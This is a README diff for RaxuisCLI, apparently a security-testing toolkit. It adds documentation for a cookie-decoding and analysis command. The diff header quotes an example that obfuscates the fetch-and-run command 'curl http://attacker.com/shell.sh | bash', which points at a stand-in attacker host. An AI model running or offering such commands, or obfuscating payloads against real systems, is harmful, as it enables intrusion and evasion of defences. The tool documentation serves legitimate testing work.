

Before and after one commit to Raxuis/RaxuisCLI, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -673,3 +798,46 @@ raxuiscli obfuscate bash "curl http://attacker.com/shell.sh | bash"
+**Use cases:**
+- Web application security testing
+- OWASP Top 10 detection
+- API security assessment
+- GraphQL endpoint security
+- Race condition testing
+
+---
+
+#### `cookie` - Cookie Analysis
+Cookie decoding and security analysis.
+
+```bash
+# Decode cookie value
+raxuiscli cookie decode "eyJhZG1pbiI6dHJ1ZX0="
+
+# Analyze security flags
+raxuiscli cookie analyze "session=abc; HttpOnly; Secure"
+
+# Flask session decode
+raxuiscli cookie flask ".eJx..." --secret "key"
+
+# Express session decode
+raxuiscli cookie express "s:..." --secret "key"
+
+# Detect session type
+raxuiscli cookie detect ".eJxNjDEOwCAIAP..."
+
+# Find sensitive data
+raxuiscli cookie sensitive '{"user":"admin","role":"admin"}'
+
+# Bulk analysis
+raxuiscli cookie bulk "sess=x" "user=y" "token=z"
+```
+
+**Use cases:**
+- Session cookie analysis
+- Framework session decoding
+- Cookie security assessment
+- Sensitive data detection
+
+---
+
 ### Utilities
 
 #### `encode` - Encoding/Decoding
````
Also changed, not shown: other parts of README.md (+127 -2 lines).
